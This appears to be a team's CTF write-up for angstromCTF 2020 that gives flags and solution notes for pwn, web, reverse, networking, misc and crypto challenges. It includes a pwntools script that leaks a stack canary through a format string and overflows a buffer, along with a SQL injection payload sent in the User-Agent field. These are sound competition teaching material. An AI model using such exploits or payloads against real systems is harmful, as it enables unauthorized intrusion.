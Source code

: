 # angstromCTF 2020

## pwn

### Canary

flag: actf{youre_a_canary_killer_>:(}

string format problem: leak canary with string format then bof

payload:

```lang=c
from pwn import *
flag = p64(0x400787)
r = remote('shell.actf.co',20701)
print(r.recvuntil(" name? "))
payload = '%17$p'
r.sendline(payload)
data = r.recvuntil("\n")
canary = data.split(',')[-1].strip()[:-1]
canary_int = p64(int(canary,16))
print(r.recvuntil("Anything else you want to tell me? "))
payload = "a"*56 + canary_int + 'b'*8 + flag
r.sendline(payload)
r.interactive()
```

#### Reference
[format string wiki](https://en.wikipedia.org/wiki/Printf_format_string)

kaibro edu-ctf

[ctf wiki](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/fmtstr/fmtstr_exploit-zh/)

[format string course](https://github.com/qazbnm456/ctf-course/blob/master/slides/w4/format-string.md)

## Web

### Consolation

flag: actf{you_would_n0t_beli3ve_your_eyes}

given a js file below, just find the function that would output the flag

```lang=c
console[_0x4229('0x14', '70CK')](_0x4229('0x38', 'rwU*'));
```

### Secret agent

flag: actf{nyoom_1_4m_sp33d}

simple sql injection(mysql) which reads the payload from user-agent field.

1. Utilize burp-suite to intercept requests.
2. Modify the user-agent to the payload below.


payload

> Roselia' or 1=1 limit 2,1 #

### xmass still stand - not solved

xss attack

### Defund's Crypt - not solved

LFI attack ( image insert reverse shell)

## Reverse

### Windows of Opportunity

flag: actf{ok4y_m4yb3_linux_is_s7ill_b3tt3r}

simply use idapro and will find the flag


### Autorev, Assemble! - Not solved

hundreds of functions with simple comparison
construct the string based on the given functions

### patcherman - Not Solved

patch program(section issue)

## Networking

### wireshark-2

flag: actf{ok_to_b0r0s-4809813}

reconstruct the jpeg file to gain the flag. After inspect the traffic, you'll find a packet with images, extract the image from the packet.

[](https://i.imgur.com/IIucaLx.png)


#### tools & reference

[wireshark refrence psh,ack](https://osqa-ask.wireshark.org/questions/20423/pshack-wireshark-capture)

[repair jpeg](https://online.officerecovery.com/pixrecovery/)

[eof of jpeg](https://stackoverflow.com/questions/4585527/detect-eof-for-jpg-images)


### ws3

flag: actf{git_good_git_wireshark-123323}

Git packfile reconstruction

Given a pcap file. Inspect the pcap file than you will find several http request / response related to git-receive packet and git-response packet.
These traffic are request and response of files in git directory. To be more specific, the users are trying to fetch the data from remote repo.

[git fetching mechanism](https://stackoverflow.com/questions/27430312/what-does-git-fetch-really-do)

basically, client will first invoke upload-pack to remote repo, the repo will then compare the latest packfile with the uploaded one. Eventuall,y the repo will return those commit, objects that client lack to the client

In conclusion, those objects / commit received from repo contains the flag.

This is the main commit / objects.

![](https://i.imgur.com/6BpFvYh.png)

After reassemble the whole packet, retrieve the packet start from PACK to the end. This will be our packfile.
Save the packfile to .pack extension.

run the command to gain the idx file

> git index-pack *.pack

follow this youtube vedio to reconstruct the objects

https://www.youtube.com/watch?v=cauIy20JhFs

Then simply run git cat-file -p to gain the flag

![](https://i.imgur.com/2BIgoJq.jpg)


#### reference

[hex to binary](https://tomeko.net/online_tools/hex_to_file.php?lang=en)

[git packfile doc](https://git-scm.com/book/en/v2/Git-Internals-Packfiles)

[packfile structure-1](https://codewords.recurse.com/issues/three/unpacking-git-packfiles)

[packfile structure-2](http://shafiul.github.io/gitbook/7_the_packfile.html)

[unpack packfile](https://www.youtube.com/watch?v=cauIy20JhFs)

[git command](https://www.juduo.cc/technique/62040.html)

[git unpack-objects](https://git-scm.com/docs/git-unpack-objects)


## misc

### inputter

flag: actf{impr4ctic4l_pr0blems_c4ll_f0r_impr4ctic4l_s0lutions}

reverse the code and input the argument with pwntools(arguments are not printable)

We have to solve this challenge through logging the shell and run the program.

Since the argv argument nor the fgets target is printable ascii
we should use pwnlib to tackle the unprintable ascii input issue

```lang=c
from pwn import *
r = process(["./inputter"," \n'\"\a"])
r.sendline("\0")
print(r.recv())
```

### Shifter

flag:actf{h0p3_y0u_us3d_th3_f0rmu14-1985098}

simply implement ceasar cipher + dynamic programming

## Crypto

### keysar

flag: actf{yum_delicious_salad}

keyed ceasar: http://rumkin.com/tools/cipher/caesar-keyed.php
